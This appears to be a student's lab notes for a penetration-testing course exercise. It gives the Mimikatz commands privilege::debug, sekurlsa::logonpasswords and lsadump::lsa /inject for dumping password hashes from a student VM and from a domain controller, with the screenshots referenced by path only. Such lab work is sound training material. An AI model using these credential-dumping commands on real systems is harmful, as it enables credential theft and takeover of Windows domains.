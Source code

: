 ### 21.3.3.1 Exercises
#### 1. Use Mimikatz to dump all password hashes from the student VM.

```powershell
# Run SeDebugPrivilege to interact with process owned by another account
privilege::debug 
# Dump creds of all logged-on users with SecureLSA module
sekurlsa::logonpasswords
```

![image-20200728173948908](.21.3.3.1.assets/image-20200728173948908.png)

#### 2. Log in to the domain controller as the Jeff_Admin account through Remote Desktop and use Mimikatz to dump all password hashes from the server.

![image-20200728193626195](.21.3.3.1.assets/image-20200728193626195.png)

```powershell
privilege::debug
lsadump::lsa /inject
```

![image-20200728175153470](.21.3.3.1.assets/image-20200728175153470.png)